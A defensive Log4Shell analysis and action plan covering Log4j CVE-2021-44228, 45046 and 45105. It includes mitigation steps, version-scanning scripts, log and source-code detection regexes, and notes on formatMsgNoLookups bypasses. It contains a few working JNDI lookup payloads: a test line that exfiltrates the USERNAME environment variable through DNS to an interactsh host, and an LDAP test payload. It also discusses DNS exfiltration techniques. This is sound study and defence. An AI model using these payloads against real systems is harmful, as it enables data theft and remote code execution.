# Context

* [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228): 	
	* Vulnerability identified into Log4J < 2.15.0.
* [CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046):
	*  Vulnerability identified into Log4J < 2.16.0.
* [CVE-2021-45105](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45105):
	*  Vulnerability identified into Log4J < 2.17.0.	

This content:
* Is created using [Joplin](https://joplinapp.org/) and then exported as markdown.
* Is based on my personal technical tests, searches and understanding of the vulnerability. Therefore, if you see a mistake or a wrong statement then feel free to raise an [issue](https://github.com/righettod/log4shell-analysis/issues) to allow me to fix the mistake and understand why I have made it 🙂

# Additional information

* [Log4j overview related software by Nationaal Cyber Security Centrum](https://github.com/NCSC-NL/log4shell/blob/main/software/README.md).
* [log4j-core version available in the maven official repository](https://search.maven.org/artifact/org.apache.logging.log4j/log4j-core).
* [Log4j RCE CVE-2021-44228 Exploitation Detection](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b).
* [CERT CH - Zero-Day Exploit Targeting Popular Java Library Log4j](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/).
* [CERT FR advisory about log4shell](https://www.cert.ssi.gouv.fr/alerte/CERTFR-2021-ALE-022/).
* [Talos Threat Advisory: Critical Apache Log4j vulnerability being exploited in the wild](https://blog.talosintelligence.com/2021/12/apache-log4j-rce-vulnerability.html).

# Publishing location of the analysis

https://github.com/righettod/log4shell-analysis

# Action plan proposal to handle the vulnerability

## Disclaimer

⚠️ It's just a proposal based on my technical experience, it is not a silver bullet or a magic recipe!

I propose the following approache to decrease the attack/exploitation surface.

## Step 1: Block callback/leakeage + artefact cartography

ℹ️ To be performed in parallel

* **Infrastructure team:** Ensure that firewall rules defined prevent any app to establish a TCP connection to a public IP or public domain.
* **Infrastructure team:** Ensure that DNS resolution rules defined prevent any app to resolve a external (public) domain or sub domain.
* **Infrastructure team:** Add log4shell signatures in all security devices based on update provided by the associated vendor.
	* Proposal: `grep -r --include "*.log" -nwE '\$\{.*?:.*\}' .`
	* This regex is [regularly testes against bypasses](https://github.com/righettod/log4shell-analysis/actions/workflows/test-detection-regex-for-bypass.yml).
* **Security team:** Use this [script](https://github.com/righettod/log4shell-analysis/blob/main/scripts/identify-log4j-class-location.sh) to identify occurences of log4j affected JNDI lookup class and, by extension, any occurence of log4j libraries (*log4j-core* at least) across all JAR/WAR/EAR files on systems.
* **Security team**: Identify the usage of the artefact **org.apache.logging.log4j:log4j-core** across all java projects via the maven proxy software installed (Artifactory/Nexus) in the company.
* **Development team:** Identify the usage of the artefact **org.apache.logging.log4j:log4j-core** in any java project via the source code. In addition identify occurence of element in code, via [this set of regexes](#identify-formatmsgnolookups-bypass-exposure-in-source-code), allowing to bypass the protection bring by the parameter `log4j2.formatMsgNoLookups=true`. To complete, identify also any usage of the `printf()` function on a logger in the code because this one is also prone to the bypass (regex for this is hard/error-prone because **printf** function is also part of `System.(out|err)`).

Help commands for development team - On Windows, replace `grep` by `Select-String -pattern "xxx"` ([Select-String documentation](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/select-string?view=powershell-7.2)):

```bash
$ cd $PROJECT_FOLDER
# For Maven based project
$ mvn dependency:tree | grep "org.apache.logging.log4j:log4j-"
[INFO] +- org.apache.logging.log4j:log4j-core:jar:2.14.1:compile
[INFO] |  \- org.apache.logging.log4j:log4j-api:jar:2.14.1:compile
# For Gradle based project
$ gradlew dependencies | grep "org.apache.logging.log4j:log4j-"
\--- org.apache.logging.log4j:log4j-core:2.14.1
     \--- org.apache.logging.log4j:log4j-api:2.14.1
```

## Step 2: Patching

**Security team**:
 
Prioritize apps to be patched by order according to their reachability by attackers and provide this order to the development team:
1. Internet facing.
2. DMZ 1 / DMZ 2 / DMZ x.
3. Backend.

**Development team:**
 
* Idealy upgrade to the [last](https://logging.apache.org/log4j/2.x/download.html) version of Log4J (sync all artefacts from GroupID **org.apache.logging.log4j**).
* If not possible **AND** the current version of **Log4J is >=  2.10.0**: Set the JVM parameter `log4j2.noFormatMsgLookup=true`. You still be exposed to the [CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046) and to the [CVE-2021-45105](#note-about-exposure-to-dos) (depending on your version for CVE-2021-45105). 
* If not possible **AND** the current version of **Log4J is < 2.10.0**: Upgrade is mandatory!
* Add these [security unit tests](https://github.com/righettod/log4shell-analysis/tree/main/sandbox/src/test/java/eu/righettod) to the project test suite to continuously ensure that the version used of log4j is not exposed to log4shell vulnerability: **Run them one at the time in sequence!**

## Step 3: Security monitoring

* **Infrastructure team:** Update regularly log4shell signatures in all security devices based on update provided by the associated vendor.
* **Security team:** Add app logs to the SIEM in order to detect exception raised by JVM during log4shell payload tentative.
	* Regex: `(Error\slooking\sup\sJNDI\sresource\s\[.*?\])`
	* [Live example](https://regexr.com/6bgak).

## Important remark regarding vulnerability scanning

If a vulnerablility scan is launched to detect log4shell exposure then ensure the following properties of the scan:
* Perform a web app scan and not an IP scan.
* Indicate the correct VHOST.
* Indicate the correct Context Path.
* Indicate the correct HTTP methods.
* Indicate the correct Path to the controllers/services.
* Indicate the correct list of parameters.
* Do not forget API: For this use the OpenAPI/WSDL descriptor to ensure that the scanner will know all the services and how to correcty call them.

This set of properties have for objective to ensure that the scanner will correctly call the endpoints with its log4shell test payloads in all supported parameters (body/header/query string) of the endpoints.

Monitor your network devices event (firewall/WAF/IPS/...) to catch payloads submitted by the scanner that will trigger the vulnerability but for which the callback or dns resolution will be blocked. Otherwise the scan will report that the target is not vulnerable and it will be a false-negative.

# Content of the initial analysis

> 📚 Below are the collection of information discovered about this vulnerability and affected versions that was initially shared on the [LinkedIn post](https://www.linkedin.com/posts/righettod_script-to-identify-log4j-affected-class-for-activity-6875328992916852736-s8oX) above

For a project managed via [maven](https://maven.apache.org/), you can use the following set of command to analyses all the modules dependencies:

```bash
$ cd $PROJECT_HOME
# See https://maven.apache.org/plugins/maven-dependency-plugin/copy-dependencies-mojo.html
$ mvn dependency:copy-dependencies
$ bash identify-log4j-class-location.sh $PROJECT_HOME
```

For project managed via [gradle](https://gradle.org/), you can use this [task](https://stackoverflow.com/a/26698161) to perform the `mvn dependency:copy-dependencies` of maven.

ℹ️ Initial [LinkedIn post](https://www.linkedin.com/posts/righettod_script-to-identify-log4j-affected-class-for-activity-6875328992916852736-s8oX) where I gathered all the information discovered about this vulnerability and affected versions.

Many prefixes are available:



Prefixes can be combined:



In recent version (2.14.1) `spring` and `kubernetes` prefixes were supported. For Kubernetes, access is constrained to the [following information](https://github.com/apache/logging-log4j2/blob/master/log4j-kubernetes/src/main/java/org/apache/logging/log4j/kubernetes/KubernetesLookup.java#L165):



For the record, `lower` and `upper` prefixes were introduced from the version **2.13.0** of  `log4j2-core`. So, if an expression use such prefix, like for example `${lower:JNDI}` in version **< 2.13.0** then it will be rendered AS IS: `${lower:JNDI}`




Based on [CERT FR documentation](https://www.cert.ssi.gouv.fr/alerte/CERTFR-2021-ALE-022/) provided (thanks to [Pierre Dewez](https://www.linkedin.com/in/pdewez/)), I performed a test on the DNS resolution with prefixes combination in a expression for data leakage via DNS because RCE is not the only problem (even if it is the most important one).

For log4j-core **<= 2.7**, prefixes combination in a expression seems not supported:



For log4j-core **>= 2.8**, prefixes combination in a expression is supported:



With the help of [Sébastien Kaiser](https://www.linkedin.com/in/s%C3%A9bastien-kaiser-a1808582/), we achieve to create a little regex to identify log4j expressions: 

```bash
grep -r --include "*.log" -nwE '\$\{.*?:.*\}' .
```

Attempt to tune to prevent the usage of `.*` failed, we did not achieve to made `grep` accept it. On another side, it catch any log4j expression because they are already many bypass available/published. 

Proposed regex was based on expressions seen in logs as well as the characters used for an expression:



Data exfiltration via DNS on recent version of Java (JDK 11/12/15/17) is effective:









Regarding the data exfiltration via DNS, there is a constraint on accepted characters and I did not find a prefix to encode data or a way to use a subset. The last version of log4j-core provide a [Base64 prefix](https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Base64StrLookup.java) but it is for decoding and this new prefix [is not present before](https://github.com/apache/logging-log4j2/tree/rel/2.14.1/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup) the **2.5.0**:




So based on this to be exfiltrated via DNS, a data must have the format `[0-9A-Za-z\-_]*` because (at least I have not found) there is no easy way to encode/cut/split the data to bypass this constraint.

Theoretical way to bypass the constraints above (**POC** required):





Source: https://twitter.com/0x6772/status/1471204834879672322

The following exception is raised when a DNS resolution failed, for example, if a not allowed character is used in sub domain name:

```text
2021-12-14 07:58:14,165 main WARN Error looking up JNDI resource [dns://ab'456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com]. javax.naming.ConfigurationException: Unknown DNS server: ab'456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com [Root exception is java.net.UnknownHostException: No such host is known (ab'456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com)]; remaining name '.'
	at jdk.naming.dns/com.sun.jndi.dns.DnsClient.<init>(DnsClient.java:130)
	at jdk.naming.dns/com.sun.jndi.dns.Resolver.<init>(Resolver.java:61)
	at jdk.naming.dns/com.sun.jndi.dns.DnsContext.getResolver(DnsContext.jav
...
```

When the resolution succeed then the following exception can occur:

```
2021-12-14 07:57:58,989 main WARN Error looking up JNDI resource [dns://ab-456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com]. javax.naming.CommunicationException: DNS error [Root exception is java.net.SocketTimeoutException: Receive timed out]; remaining name '.'
	at jdk.naming.dns/com.sun.jndi.dns.DnsClient.query(DnsClient.java:316)
	at jdk.naming.dns/com.sun.jndi.dns.Resolver.query(Resolver.java:81)
	at jdk.naming.dns/com.sun.jndi.dns.DnsContext.c_lookup(DnsContext.java:290)
	at java.naming/com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
	at java.naming/com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
	at java.naming/com.sun.jndi.toolkit.url.GenericURLContext.lookup(Generic
```


So, the following regex can be use to identify injection tentative (failed and some succeed) - [Live Example](https://regexr.com/6bgak):

```text
(Error\slooking\sup\sJNDI\sresource\s\[.*?\])
```

Code for the DNS test - [InteractSH](https://github.com/projectdiscovery/interactsh) Github repository:

```java
Logger log = LogManager.getLogger(Sandbox2.class);
System.out.printf("LOG4J2 version: %s\n", log.getClass().getPackage().getImplementationVersion());
System.out.printf("Java version  : %s\n", System.getProperty("java.version"));
//On linux use ${env:USER}
log.info("${jndi:dns://${env:USERNAME}.xxxxx.interactsh.com}");
```


# Unit test case for CVE-2021-44228

The following unit tests suite can be added to a project to continuously *ensure that the version used of log4j-core is not exposed to log4shell vulnerability.*

[Log4ShellExposureTest.java](https://github.com/righettod/log4shell-analysis/blob/main/sandbox/src/test/java/eu/righettod/Log4ShellExposureTest.java)

Execution on the unit test against **log4j-core 2.14.1** (vulnerable):



Execution on the unit test against **log4j-core 2.16.0** (patched):



# Note about the affected JNDI class presence

The following script was created to identify, in which jar files of a [complete distribution of Log4J2](https://archive.apache.org/dist/logging/log4j/), the class `org.apache.logging.log4j.core.lookup.JndiLookup` is present:

```bash
#!/bin/bash
#########################################################################################################
# Script to identify Log4J affected class for CVE-2021-44228 in a distribution of LOG4J2
#########################################################################################################
# See https://search.maven.org/artifact/org.apache.logging.log4j/log4j-core
VERSION=$1
TARGET_CLASS_NAME="org/apache/logging/log4j/core/lookup/JndiLookup.class"
DIST_URL="https://archive.apache.org/dist/logging/log4j/$VERSION/apache-log4j-$VERSION-bin.zip"
WORKDIR="/tmp/work"
WORKBIN="/tmp/log4j2.zip"
echo -e "\e[93m[+] Download and uncompress release $VERSION archive...\e[0m"
wget -q -O $WORKBIN $DIST_URL
rm -rf $WORKDIR 2>/dev/null
mkdir $WORKDIR
unzip -q -d $WORKDIR $WORKBIN
echo -e "\e[93m[+] Search class '$TARGET_CLASS_NAME' across all jar files...\e[0m"
for lib in $(find $WORKDIR -iname "*.jar")
do
    find=$(unzip -l $lib | grep -c "$TARGET_CLASS_NAME")
	if [ $find -ne 0 ]
	then
		echo "'$(basename $lib)' file contains the class."
	fi    
done
echo -e "\e[93m[+] Cleanup...\e[0m"
rm -rf $WORKDIR 2>/dev/null
rm $WORKBIN
```

Execution against the release **2.14.1**:

```bash
$ bash find-jndi-class.sh "2.14.1"
[+] Download and uncompress release 2.14.1 archive...
[+] Search class 'org/apache/logging/log4j/core/lookup/JndiLookup.class' across all jar files...
'log4j-core-2.14.1.jar' file contains the class.
[+] Cleanup...
```

Execution against **all published releases**:

*Utility script named test.sh*

```bash
#!/bin/bash
while IFS= read -r line
do
  bash find-jndi-class.sh $line
done < "versions.txt"
```

*Execution*

```bash
# "data.txt" file created using this page html content:
# https://archive.apache.org/dist/logging/log4j/
$ head -5 data.txt
[DIR] 2.0-alpha1/                    2016-05-30 04:49    -
[DIR] 2.0-alpha2/                    2016-05-30 04:49    -
[DIR] 2.0-beta1/                     2016-05-30 04:49    -
[DIR] 2.0-beta2/                     2016-05-30 04:49    -
[DIR] 2.0-beta3/                     2016-05-30 04:49    -
$ cat data.txt | cut -d'/' -f1 | cut -d' ' -f2 | sort > versions.txt
$ head -5 versions.txt
2.0
2.0-alpha1
2.0-alpha2
2.0-beta1
2.0-beta2
$ bash test.sh | grep "file contains the class"
'log4j-core-2.0.jar' file contains the class.
'log4j-core-2.0-beta9.jar' file contains the class.
'log4j-core-2.0-rc1.jar' file contains the class.
'log4j-core-2.0-rc2.jar' file contains the class.
'log4j-core-2.0.1.jar' file contains the class.
'log4j-core-2.0.2.jar' file contains the class.
'log4j-core-2.1.jar' file contains the class.
'log4j-core-2.10.0.jar' file contains the class.
'log4j-core-2.11.0.jar' file contains the class.
'log4j-core-2.11.1.jar' file contains the class.
'log4j-core-2.11.2.jar' file contains the class.
'log4j-core-2.12.0.jar' file contains the class.
'log4j-core-2.12.1.jar' file contains the class.
'log4j-core-2.12.2.jar' file contains the class.
'log4j-core-2.13.0.jar' file contains the class.
'log4j-core-2.13.1.jar' file contains the class.
'log4j-core-2.13.2.jar' file contains the class.
'log4j-core-2.13.3.jar' file contains the class.
'log4j-core-2.14.0.jar' file contains the class.
'log4j-core-2.14.1.jar' file contains the class.
'log4j-core-2.15.0.jar' file contains the class.
'log4j-core-2.16.0.jar' file contains the class.
'log4j-core-2.2.jar' file contains the class.
'log4j-core-2.3.jar' file contains the class.
'log4j-core-2.4.jar' file contains the class.
'log4j-core-2.4.1.jar' file contains the class.
'log4j-core-2.5.jar' file contains the class.
'log4j-core-2.6.jar' file contains the class.
'log4j-core-2.6.1.jar' file contains the class.
'log4j-core-2.6.2.jar' file contains the class.
'log4j-core-2.7.jar' file contains the class.
'log4j-core-2.8.jar' file contains the class.
'log4j-core-2.8.1.jar' file contains the class.
'log4j-core-2.8.2.jar' file contains the class.
'log4j-core-2.9.0.jar' file contains the class.
'log4j-core-2.9.1.jar' file contains the class.
```

So, focus can be made on the artifact **org.apache.logging.log4j:log4j-core** when searching for usage of Log4J2 in project source code / maven proxy / projet descriptor (maven, gradle).

# Note about the security flags

The following script was created to identify, in which version of Log4j2, the flag `log4j2.formatMsgNoLookups` or `log4j2.enableJndi` were present based on sources provided with [complete distribution of Log4J2](https://archive.apache.org/dist/logging/log4j/):

```bash
#!/bin/bash
#########################################################################################################
# Script to identify Log4J version supporting security flags mentioned in CVE advisory
#########################################################################################################
# See https://search.maven.org/artifact/org.apache.logging.log4j/log4j-core
VERSION=$1
DIST_URL="https://archive.apache.org/dist/logging/log4j/$VERSION/apache-log4j-$VERSION-bin.zip"
WORKDIR="/tmp/work2"
WORKBIN="/tmp/log4j2-dist.zip"
WORKSRC="/tmp/worksrc"
echo -e "\e[93m[+] Download and uncompress release $VERSION archive...\e[0m"
wget -q -O $WORKBIN $DIST_URL
rm -rf $WORKDIR 2>/dev/null
mkdir $WORKDIR
unzip -q -d $WORKDIR $WORKBIN
echo -e "\e[93m[+] Search flags across all sources files ...\e[0m"
for lib in $(find $WORKDIR -iname "*-sources.jar")
do
	rm -rf $WORKSRC 2>/dev/null
	mkdir $WORKSRC
	unzip -q -d $WORKSRC $lib
	# See https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/util/Constants.java#L67
    find=$(grep -r --include "*.java" "log4j2\.formatMsgNoLookups" $WORKSRC | wc -l)
	if [ $find -ne 0 ]
	then
		echo "'$(basename $lib)' file contains the flag: 'log4j2.formatMsgNoLookups'."
	fi 
	# See https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/net/JndiManager.java#L76
    find=$(grep -r --include "*.java" "log4j2\.enableJndi" $WORKSRC | wc -l)
	if [ $find -ne 0 ]
	then
		echo "'$(basename $lib)' file contains the flag: 'log4j2.enableJndi'."
	fi 
done
echo -e "\e[93m[+] Cleanup...\e[0m"
rm -rf $WORKDIR 2>/dev/null
rm -rf $WORKSRC 2>/dev/null
rm $WORKBIN
```

Execution against **all published releases**:

*Utility script named test.sh*

```bash
#!/bin/bash
while IFS= read -r line
do
  bash find-flag.sh $line
done < "versions.txt"
```

*Execution*

```bash
# "data.txt" file created using this page html content:
# https://archive.apache.org/dist/logging/log4j/
$ head -5 data.txt
[DIR] 2.0-alpha1/                    2016-05-30 04:49    -
[DIR] 2.0-alpha2/                    2016-05-30 04:49    -
[DIR] 2.0-beta1/                     2016-05-30 04:49    -
[DIR] 2.0-beta2/                     2016-05-30 04:49    -
[DIR] 2.0-beta3/                     2016-05-30 04:49    -
$ cat data.txt | cut -d'/' -f1 | cut -d' ' -f2 | sort > versions.txt
$ head -5 versions.txt
2.0
2.0-alpha1
2.0-alpha2
2.0-beta1
2.0-beta2
$ bash test.sh | grep "file contains the flag"
'log4j-core-2.10.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.11.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.11.1-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.11.2-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.12.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.12.1-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.12.2-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.12.2-sources.jar' file contains the flag: 'log4j2.enableJndi'.
'log4j-core-2.13.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.13.1-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.13.2-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.13.3-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.14.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.14.1-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.15.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.16.0-sources.jar' file contains the flag: 'log4j2.formatMsgNoLookups'.
'log4j-core-2.16.0-sources.jar' file contains the flag: 'log4j2.enableJndi'.
```

So based on the results above:
* Flag `log4j2.formatMsgNoLookups` can be used on Log4j2 version **>= 2.10.0** ([source ref](https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/util/Constants.java#L67)).
* Flag `log4j2.enableJndi` can be used on Log4j2 versions **2.12.2** and **2.16.0** only ([source ref](https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/net/JndiManager.java#L76)).

The following script was created and used in combination of a test Maven project using this [test class](https://gist.github.com/righettod/ce1570954242de2f8772c6f25eece77d#gistcomment-3995526) to identify in which versions **>= 2.10.0** the flag is `log4j2.formatMsgNoLookups` is effective or not:

Script and POM file of the test project:



Execution with the security flag disabled to verify that the unit test is OK:



Execution with the security flag enabled to see the protection state:



So based on the results above: The flag is effective on versions **>= 2.10.0**.

# Note about formatMsgNoLookups bypass

This bypass was bring by the [CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046).

Below is a POC from [LunaSecIO](https://twitter.com/LunaSecIO) showing the vulnerability and its exploitation context:



Source: https://twitter.com/LunaSecIO/status/1470871128843251716

A unit tests suite was created and used to perform some tests for the bypass of `log4j2.formatMsgNoLookups=true`:

[Log4ShellExposureTestFormatMsgNoLookupsBypass.java](https://github.com/righettod/log4shell-analysis/blob/main/sandbox/src/test/java/eu/righettod/Log4ShellExposureTestFormatMsgNoLookupsBypass.java)

Version **2.14.1** seems to be exposed to the bypass:



Version **2.15.0** do not seems to be exposed to the bypass:



Note that a usage of the `printf()` function, like for example `victim.printf(Level.INFO,"%s",TEST_PAYLOAD);`, have the same effect that using the `ThreadContext` combined with a expression in the log pattern:





So a unit tests suite was also created for this bypass:

[Log4ShellExposureTestFormatMsgNoLookupsBypassWithPrintf.java](https://github.com/righettod/log4shell-analysis/blob/main/sandbox/src/test/java/eu/righettod/Log4ShellExposureTestFormatMsgNoLookupsBypassWithPrintf.java)

On version **2.15.0** - By default:

* JNDI with DNS protocol is not allowed:



* JNDI with LDAP(S) protocol require defining allowed hosts:



Regarding LDAP(S), a bypass of the validation against allowed hosts was identified: https://twitter.com/pwntester/status/1471465662975561734

Regarding the following bypass disclosed on Twitter: 





Sources:

* https://twitter.com/marcioalm/status/1471740771581652995
* https://twitter.com/marcioalm/status/1471842702849286149

It seems not effective on Java 17 ([current LTS](https://en.wikipedia.org/wiki/Java_version_history)) and Java 11 (previous LTS), at least, using a "standart" DNS listener:





Some DNS client, like **dig**, perform some cleanup so the bypass become functional:



However, as the JVM (at least 8/11/17) do not perform any cleanup and take the value AS IS for the host then it raise an error about the invalid host name exception: `java.net.UnknownHostException` so my hypothesis (**perhaps I am totally wrong**) is that the bypass need a "lazy" DNS listener accepting characters normally not supported in a domain name (like `#`):



⁉️ However, there is still questions in my head about how the not "normal" DNS query with the domain name find is way to the DNS listener of the attcker because it will pass before by "normal" DNS resolvers that will normally reject the DNS query...This point need specific investigation and real POC to be sure that is really effective!

I have my reply thanks to the author of the tool:



Source: https://twitter.com/marcioalm/status/1472721497462489092

So it's possible to exfiltrate data by DNS that do not follow the standart name of a sub domain.

However, it do not work with listener services like dnslog.cn/interact.sh (include Burp Collaborator):

**Test with dnslog.cn:**





**Test with interact.sh**





So, a custom DNS listener must be used, like [Knary](https://github.com/sudosammy/knary) for example, but, to summarize the exfiltration by DNS is really effective.

The following script was used in combination of the unit test cases to verify which version **>= 2.10.0** is exposed to the bypass:

*Utility script named testFormatMsgNoLookupsBypass.sh*

```bash
#!/bin/bash
echo "[+] JDK"
java -version
echo "[+] TEST"
while IFS= read -r line
do
  mvn -q -D"test=Log4ShellExposureTestFormatMsgNoLookupsBypass" -D"log4j2.target.version=$line" -D"log4j2.formatMsgNoLookups=true" clean test 1>/dev/null
  rc1=$?
  mvn -q -D"test=Log4ShellExposureTestFormatMsgNoLookupsBypassWithPrintf" -D"log4j2.target.version=$line" -D"log4j2.formatMsgNoLookups=true" clean test 1>/dev/null
  rc2=$?
  rc=$(($rc1 + $rc2))
  echo ">>> RC: $rc"
  if [ $rc -ne 0 ]
  then
    echo "<<< Version $line flag log4j2.formatMsgNoLookups NOT effective."
  else
    echo "<<< Version $line flag log4j2.formatMsgNoLookups IS effective."
  fi
done < "versions.txt"
```

*Execution*



So based on the results above: Version **2.12.2**, **2.15.0** and **2.16.0** seems not prone to the bypass. it reinforces the fact that update is the only *reliable* way regardring the 45046.

# Identify formatMsgNoLookups bypass exposure in source code

Even if it is better to use a [SAST](https://en.wikipedia.org/wiki/Static_application_security_testing) tool to identify weaknesses in source code, the following regexes can be used to quickly spot, across a code base, presence of the elements needed by the bypass:

## Search for ThreadContext class usage

> Keycloak code base do not contains any reference to ThreadContext. I added them to test the regex on a large initial code base.

**Bash:**

```bash
$ grep -r --include "*.java" -nwE '(ThreadContext\.put|import\sorg\.apache\.logging\.log4j\.ThreadContext)' .
./saml-core/src/main/java/org/keycloak/rotation/HardcodedKeyLocator.java:25:import org.apache.logging.log4j.ThreadContext;
./saml-core/src/main/java/org/keycloak/rotation/HardcodedKeyLocator.java:59:            ThreadContext.put("InsecureVariable", TEST_PAYLOAD);
...
```

**PowerShell:**

```powershell
PS> Get-ChildItem -Path .\keycloak-main\  -Include "*.java" -Recurse | Select-String -Pattern "(ThreadContext\.put|import\sorg\.apache\.logging\.log4j\.ThreadContext)" -CaseSensitive
keycloak-main\saml-core\src\main\java\org\keycloak\rotation\HardcodedKeyLocator.java:25:import org.apache.logging.log4j.ThreadContext;
keycloak-main\saml-core\src\main\java\org\keycloak\rotation\HardcodedKeyLocator.java:59:                ThreadContext.put("InsecureVariable", TEST_PAYLOAD);
...
```

## Search for Thread Context Map usage 

> Keycloak code base do not contains any reference to Thread Context Map. I added them to test the regex on a large initial code base.

Log4j2:
* [Pattern layout documentation](https://logging.apache.org/log4j/2.x/manual/layouts.html)
* [Configuration documentation](https://logging.apache.org/log4j/2.x/manual/configuration.html).

**Bash:**

```bash
$ grep -r --include "*.java" --include "*.properties" --include "*.xml" --include "*.json" --include "*.yaml" --include "*.yml" -nwE '%(X|mdc|MDC)\{\s*.*?\s*\}' .
./core/src/main/java/org/keycloak/Log4ShellExposureTestFormatMsgNoLookupsBypass.java:62:        appenderBuilder.add(builder.newLayout("PatternLayout").addAttribute("pattern", "${ctx:InsecureVariable} %X{TEST}- %m%n"));
./testsuite/integration-arquillian/servers/app-server/jetty/common/src/test/resources/log4j.properties:5:log4j.appender.stdout.layout.ConversionPattern=%d{HH:mm:ss,SSS} %mdc{clientNumber2} %-5p %t %MDC{clientNumber3} [%c] %m%n
./testsuite/model/src/test/resources/log4j.properties:22:keycloak.testsuite.logging.pattern=%d{HH:mm:ss,SSS} %-5p %X{clientNumber} [%c] (%t) %m%n
```

**PowerShell:**

```powershell
PS> Get-ChildItem -Path .\keycloak-main\  -Include "*.java","*.properties","*.xml","*.json","*.yaml","*.yml" -Recurse | Select-String -Pattern "%(X|mdc|MDC)\{\s*.*?\s*\}" -CaseSensitive
keycloak-main\core\src\main\java\org\keycloak\Log4ShellExposureTestFormatMsgNoLookupsBypass.java:62:        appenderBuilder.add(builder.newLayout("PatternLayout").addAttribute("pattern",
"${ctx:InsecureVariable} %X{TEST}- %m%n"));
keycloak-main\testsuite\integration-arquillian\servers\app-server\jetty\common\src\test\resources\log4j.properties:5:log4j.appender.stdout.layout.ConversionPattern=%d{HH:mm:ss,SSS} %mdc{clientNumber2}
%-5p %t %MDC{clientNumber3} [%c] %m%n
keycloak-main\testsuite\model\src\test\resources\log4j.properties:22:keycloak.testsuite.logging.pattern=%d{HH:mm:ss,SSS} %-5p %X{clientNumber} [%c] (%t) %m%n
...
```


## Search for expression usage

Another regex to identify usage of expressions based on log4j [prefixes](https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java#L103) like `${ctx:xxx}`, `${map:xxx}` ...

**Bash:**

```bash
$ grep -r --include "*.java" --include "*.properties" --include "*.xml" --include "*.json" --include "*.yaml" --include "*.yml" -nwE '\$\{\s*(ctx|log4j|sys|env|main|marker|java|base64|lower|upper|sd|map|jndi|jvmrunargs|date|event|bundle):.*?\s*\}'
core/src/main/java/org/keycloak/Log4ShellExposureTestFormatMsgNoLookupsBypass.java:36:    private static final String TEST_PAYLOAD = "${jndi:ldap://donotexists.com/test}";
core/src/main/java/org/keycloak/Log4ShellExposureTestFormatMsgNoLookupsBypass.java:62:        appenderBuilder.add(builder.newLayout("PatternLayout").addAttribute("pattern", "${ctx:InsecureVariable} %X{TEST}- %m%n"));
quarkus/runtime/src/main/java/org/keycloak/quarkus/runtime/cli/command/Main.java:56:            "Keycloak ${sys:kc.version}",
...
```

**PowerShell**:
```powershell
PS> Get-ChildItem -Path .\keycloak-main\ -Include "*.java","*.properties","*.xml","*.json","*.yaml","*.yml" -Recurse | Select-String -Pattern "\$\{\s*(ctx|log4j|sys|env|main|marker|java|base64|lower|upper|sd|map|jndi|jvmrunargs|date|event|bundle):.*?\s*\}" -CaseSensitive
keycloak-main\core\src\main\java\org\keycloak\Log4ShellExposureTestFormatMsgNoLookupsBypass.java:36:    private static final String TEST_PAYLOAD = "${jndi:ldap://donotexists.com/test}";
keycloak-main\core\src\main\java\org\keycloak\Log4ShellExposureTestFormatMsgNoLookupsBypass.java:62:        appenderBuilder.add(builder.newLayout("PatternLayout").addAttribute("pattern",
"${ctx:InsecureVariable} %X{TEST}- %m%n"));
keycloak-main\quarkus\runtime\src\main\java\org\keycloak\quarkus\runtime\cli\command\Main.java:56:            "Keycloak ${sys:kc.version}",
...
``` 


# Note about JNDI-Exploit-Kit

During my work with my mates [Paul Jung](https://www.linkedin.com/in/jungpaul)/[Sébastien Kaiser](https://www.linkedin.com/in/s%C3%A9bastien-kaiser-a1808582/) from [CERT-XLM](https://excellium-services.com/services/cert-xlm/)/[SOC](https://excellium-services.com/services/eyeguard/), I have remarked the following thing. Sometime the tool [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit) is used.

By exploring it locally, I noticed that its web server (Jetty) appear as a **abyss** service:





Payload java compiled class are served by the web server using this URL format: `http://[HOST]:[PORT]/ExecTemplateJDK5.class`

